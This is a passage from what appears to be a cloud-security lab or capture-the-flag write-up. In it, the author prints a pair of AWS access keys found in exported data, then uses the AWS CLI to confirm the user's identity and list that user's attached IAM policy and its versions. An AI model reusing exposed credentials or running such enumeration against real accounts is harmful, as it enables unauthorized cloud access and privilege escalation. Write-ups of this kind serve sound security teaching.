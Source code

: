 We find a set of AWS credentials. Let's select both fields and under Actions we can select export to view the data.

```json
{
    "AWS_ACCESS_KEY_ID": "AKIA4NF5TOKM7EWE4TKC",
    "AWS_SECRET_ACCESS_KEY": "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"
}
```

```bash
aws sts get-caller-identity
{
    "UserId": "AIDA4NF5TOKM46H5JPGTM",
    "Account": "852948644505",
    "Arn": "arn:aws:iam::852948644505:user/tamayo"
}
```

These are of `tamayo` credentials. Enumerating using tools lead no where. Let's see if this user has any attached policies. 

```bash
aws iam list-attached-user-policies --user-name tamayo
{
    "AttachedPolicies": [
        {
            "PolicyName": "CodeStarRole",
            "PolicyArn": "arn:aws:iam::852948644505:policy/CodeStarRole"
        }
    ]
}
```

We see there is a policy attached to this user. Let's list the policy versions. 

```bash
aws iam list-policy-versions --policy-arn arn:aws:iam::852948644505:policy/CodeStarRole
{
    "Versions": [
        {
            "VersionId": "v5",
            "IsDefaultVersion": true,
            "CreateDate": "2022-03-27T09:49:25Z"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2022-03-27T08:07:00Z"
        }
    ]
}
```

We see there are two versions present. Let's view the policy version `v5` which is set to default. 
